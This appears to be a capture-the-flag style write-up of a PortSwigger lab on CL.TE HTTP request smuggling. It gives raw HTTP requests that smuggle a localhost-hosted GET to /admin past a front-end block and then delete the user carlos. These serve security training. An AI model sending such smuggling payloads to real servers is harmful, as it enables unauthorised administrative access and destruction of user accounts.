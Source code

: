 # Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te) involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.

## Reproduction and proof of concept

1. Try to visit ``/admin`` and observe that the request is blocked.
2. Using Burp Repeater, issue the following request twice:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```

3. Observe that the merged request to ``/admin`` was rejected due to not using the header ``Host: localhost``.
4. Issue the following request twice:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: X
```

5. Observe that the request was blocked due to the second request's Host header conflicting with the smuggled Host header in the first request.
6. Issue the following request twice so the second request's headers are appended to the smuggled request body instead:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

7. Observe that you can now access the admin panel.
8. Using the previous response as a reference, change the smuggled request URL to delete the user ``carlos``:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

## Exploitability

An attacker will need to smuggle a request to the back-end server that accesses the `admin` panel and deletes the user `carlos`. 
